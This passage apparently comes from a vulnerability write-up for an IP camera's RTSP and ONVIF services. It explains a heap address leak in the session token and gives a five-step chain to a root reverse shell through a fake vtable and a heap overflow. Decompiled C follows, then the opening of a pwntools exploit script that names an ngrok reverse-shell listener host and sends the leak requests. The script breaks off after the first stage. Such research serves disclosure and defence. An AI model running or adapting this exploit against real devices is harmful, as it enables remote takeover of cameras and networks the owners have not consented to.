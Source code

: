 Session token is constructed by concatenating the current `CHYRtsp` object pointer `this` twice, which is an obvious infoleak. Even further, this object embeds a 0x800-length client request buffer at offset 0x7c which allows us to write arbitrary data on a known offset. This session token can later be retrieved by `CHYRtsp::ResponsePause()`:

```c
  if ( this->chan_no >= 0 && this->chan_0or1 >= 0 )
  {
    memset(v3, 0, 0x96u);
    memset(v4, 0, sizeof(v4));
    strcpy(v3, "RTSP/1.0 200 Ok\r\n");
    sprintf(v4, "Session: %s\r\n", this->session);
    CHYRtsp::UpdateRecvBuf(this);
    result = CHYRtsp::SendResponse(this, v3, v4, 0);
```

To satisfy the above condition, sending a single `OPTIONS` request at the start of connection is sufficient (`CHYRtsp::ResponseOptions()`), leading to a final request order of `OPTIONS -> SETUP -> PAUSE` to leak the `CHYRtsp` object address.

> Note that omitting `SETUP` in the chain (`OPTIONS -> PAUSE`) leads to uninit heap data leak from `session` field, which is yet another vulnerability by itself.

Finally, we chain the two primitives to obtain RCE via the following steps:
1. Connect via RTSP (TCP port 554) and use the heap infoleak primitive to leak heap address
2. Construct a fake vtable pointing to reverse shellcode immediately following it, then send this as RTSP request to save it in memory
   - Note that device runs on an old MIPS processor, so NX is not in effect.
3. Establish multiple connections via ONVIF (TCP port 8899) to allocate `COnvifSession` objects consecutively in memory
4. Use the heap buffer overflow from one of the connections to overwrite the vtable of next `COnvifSession` object
5. Send dummy data to each of the ONVIF connections to trigger the shellcode and pop root shell.


## Proof of Concept

Below code is equivalent with [exploit.py](./exploit.py).

```python
#!/usr/bin/env python3

from pwn import *
import socket
import time

context.update(arch='mips', os='linux', bits=32, endian='little')

# prepare your reverse shell listener here
LHOST = "0.tcp.jp.ngrok.io"
LPORT = 12057

IP = "192.168.0.104"

print('prep vtable and shellcode!')
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((IP, 554))

s.sendall(b"OPTIONS rtsp://192.168.0.104:554/stream_ch00_0 RTSP/1.0\r\nCSeq: 1\r\n\r\n")
data = s.recv(1024)

s.sendall(b"SETUP rtsp://192.168.0.104:554/ RTSP/1.0\r\nCSeq: 1\r\n\r\n")
data = s.recv(1024)

s.sendall(b"PAUSE rtsp://192.168.0.104:554/ RTSP/1.0\r\nCSeq: 1\r\n\r\n")
data = s.recv(1024)

```